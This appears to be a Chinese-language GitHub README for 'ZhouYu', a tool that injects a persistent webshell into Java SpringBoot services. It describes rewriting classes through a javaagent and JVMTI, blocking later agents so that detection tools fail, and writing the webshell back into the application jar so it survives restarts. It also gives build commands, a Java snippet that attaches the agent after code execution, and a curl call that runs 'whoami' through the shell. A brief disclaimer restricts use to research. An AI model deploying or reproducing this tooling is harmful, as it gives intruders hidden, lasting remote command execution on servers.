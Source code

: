 *工具仅用于安全研究，禁止使用工具发起非法攻击，造成的后果使用者负责*

### ZhouYu -> 周瑜

Java - SpringBoot 持久化 WebShell（适配任何符合JavaEE规范的服务）

背景：后Spring时代，SpringBoot jar部署模式下，一般没有了JSP，所有的模板都在jar内，当大家都热衷于内存马的时候，发现很容易被查杀（网上查杀方式无外乎都是利用JVMTI重加载class的javaagent方式），并且重启后丢失！

1. ZhouYu带来新的webshell写入手法，通过javaagent，利用JVMTI机制，在回调时重写class类，插入webshell，并通过阻止后续javaagent加载的方式，防止webshell被查杀

2. 修改的class类插入webshell后，通过持久化到jar进行class替换，达到webshell持久化，任你如何重启都无法甩掉

### 一、打包编译

命令：
```text
gradle :agent:shadowJar
```
或
```text
./gradlew :agent:shadowJar
```

编译后得到 agent/build/libs/agent-1.0-SNAPSHOT-all.jar，即ZhouYu.jar

### 二、使用方式

两种场景：

1. 当你知道jvm pid时，并且能写入临时文件（ZhouYu.jar），一般这种场景不太常见，测试场景比较多
```text
java -jar ZhouYu.jar 23232，23232为需要attach的jvm进程号！
```

2. 能执行一小段代码（内存shell的原理一般是反序列化时加载一段恶意字节码）

先把编译后得到的ZhouYu.jar写到临时目录，例：/tmp/ZhouYu.jar

接着执行下面代码：
```
try {
  String pid = java.lang.management.ManagementFactory.getRuntimeMXBean().getName();
  int indexOf = pid.indexOf('@');
  if (indexOf > 0) {
    pid = pid.substring(0, indexOf);
    Runtime.getRuntime().exec(String.format("java -jar /tmp/ZhouYu.jar %s", pid));
  }
} catch (Throwable throwable) {

}
```

3. 执行命令
```
curl -XGET "http://127.0.0.1:8080?cmd=whoami"
```

### WARNNING

#### 为了防止出现生产事故，在对原有jar（A.jar）进行替换修改前，会对其进行备份，备份到当前目录下（命名为.A.jar.bk）